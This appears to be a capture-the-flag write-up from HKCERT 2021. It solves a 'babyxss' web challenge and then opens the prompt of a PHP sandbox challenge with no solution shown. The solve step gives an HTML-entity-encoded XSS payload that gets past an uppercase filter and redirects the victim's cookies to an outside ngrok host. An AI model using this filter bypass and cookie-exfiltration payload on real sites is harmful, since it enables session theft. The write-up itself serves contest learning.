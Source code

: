 ```
    INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
    OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
```
Tried to deobfuscate the code using https://deobfuscate.io/, we can get:
```
TOUPPERCASE = "toUpperCase";
SUBSTR = "substr";
ENCODEURI = "encodeURI";
DECODEURI = "decodeURI";
VALUE = "value";
SRCDOC = "srcdoc";
CONTENTWINDOW = "contentWindow";
PARENT = "parent";
LOCATION = "location";
HASH = "hash";
WINDOW = OUTPUT[CONTENTWINDOW][PARENT];
```
Next let's rewrite the `CONVERT` function:
```
CONVERT = () => {
    INPUT[VALUE] = decodeURI(location.hash.substr(1));
    OUTPUT[SRCDOC] = INPUT.value.toUpperCase();
```
From the `CONVERT` function, we know that it will take the input from the URL after `#` and convert to uppercase, i.e. for `http://babyxss-m7neh9.hkcert21.pwnable.hk/#%3Cscript%3Ealert('XSS')%3C/script%3E`, it will be converted to `<SCRIPT>ALERT('XSS')</SCRIPT>` which is not a valid javascript as shown below:  
![babyxss](https://user-images.githubusercontent.com/19466939/143604225-ae70f52b-bb64-44a6-99a9-75e70fe7bf54.png)

Therefore we need to find some function that is also defined in uppercase.
We can use html encoding to bypass the `toUpperCase`.

**Solve:**
```
http://babyxss-m7neh9.hkcert21.pwnable.hk/#%3Cimg%20src=x%20onerror=%22&#x6C;&#x6F;&#x63;&#x61;&#x74;&#x69;&#x6F;&#x6E;&#x2E;&#x68;&#x72;&#x65;&#x66;&#x3D;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x33;&#x61;&#x63;&#x63;&#x2D;&#x31;&#x38;&#x33;&#x2D;&#x31;&#x37;&#x39;&#x2D;&#x37;&#x32;&#x2D;&#x32;&#x33;&#x30;&#x2E;&#x6E;&#x67;&#x72;&#x6F;&#x6B;&#x2E;&#x69;&#x6F;&#x2F;&#x3F;&#x66;&#x6C;&#x61;&#x67;&#x3D;&#x27;&#x2B;&#x65;&#x6E;&#x63;&#x6F;&#x64;&#x65;&#x55;&#x52;&#x49;&#x43;&#x6F;&#x6D;&#x70;&#x6F;&#x6E;&#x65;&#x6E;&#x74;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x29;%22%3E%3C/img%3E
```
FLAG : **hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}**

## 荊棘海 (The Wilderness) - Web (100 points)
### Challenge :
>>就在回望一刻總有哀 世界已不再 誰偏偏一再 等待 到終於不記得等待  

>Mystiz likes PHP most. He has been programming in PHP at the time PHP 5 was released. Time flies and here comes PHP 8. He decided to craft a Docker image as a sandbox... What can go wrong?  
http://chalp.hkcert21.pwnable.hk:28364/
